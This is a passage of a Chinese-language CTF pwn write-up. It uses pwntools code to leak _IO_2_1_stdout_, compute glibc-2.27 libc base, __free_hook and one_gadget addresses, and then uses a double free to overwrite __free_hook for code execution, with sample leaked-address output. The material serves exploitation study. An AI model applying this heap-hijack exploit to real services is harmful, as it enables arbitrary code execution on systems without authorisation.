 此时，如果调用打印函数showConfig()，即可泄露出`__IO_2_1_stdout_`的内存地址。根据glibc-2.27(1.2)版本的偏移，即可找到libc基地址、__free_hook以及one_gadget的offset；

```python
def printInfo():
    p.sendlineafter("ch> ", "2")

	# 7 -- get address of IO_stdout 
    printInfo()
    io_stdout = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
    libc_base = io_stdout - 0x3ec760
    free_hook = libc_base + 0x3ed8e8
    log.success("__IO_2_1_stdout_ => " + hex(io_stdout))
    log.success("libc_base => " + hex(libc_base))
    log.success("__free_hook => " + hex(free_hook))
    
    offset = [0x4f2c5, 0x4f322, 0x10a38c]
    one_gadget = [libc_base+offset[0], libc_base+offset[1], libc_base+offset[2]]
    
    for i in range(3):
        log.success("one_gadget[" + str(i) + "] => " + hex(one_gadget[i]))
```

得到的结果为：

```python
[+] _IO_2_1_stdout_ => 0x7fe10501a760
[+] libc_base => 0x7fe104c2e000
[+] _free_hook => 0x7fe10501b8e8
[+] one_gadget[0] => 0x7fe104c7d2c5
[+] one_gadget[1] => 0x7fe104c7d322
[+] one_gadget[2] => 0x7fe104d3838c
```

## 利用

接下来需要利用漏洞，篡改__free_hook为one_gadget的地址，通过realloc一个大小为0的chunk来完成free的操作，由此触发one_gadget；

如何进行篡改呢？同样，利用double free在__free_hook处伪造一个堆块，将one_gadget地址填入；

```python
    # init
    Start_rain()

    # 8 --realloc user_chunk
    frame6 = Frame(0x30, 0x30, 3, 4, 1, b'a'*0x20)
    Config(frame6)

    # 9 --free
    frame7 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame7)

    # 10 --double free
    frame8 = Frame(0x30, 0x30, 3, 4, 1, b'')
    Config(frame8)

    # 11 --modify fd to __free_hook
    fake_fd = p64(free_hook) + b'b'*(0x20-0x8)   # __free_hook
    frame9 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)    # size(Frame) = 0x12
    Config(frame9)

    Start_rain()

    # modify __free_hook -> one_gadget
    fake_fd = p64(one_gadget[1]) * 4
    frame10 = Frame(0x30, 0x30, 3, 4, 1, fake_fd)
    Config(frame10)
```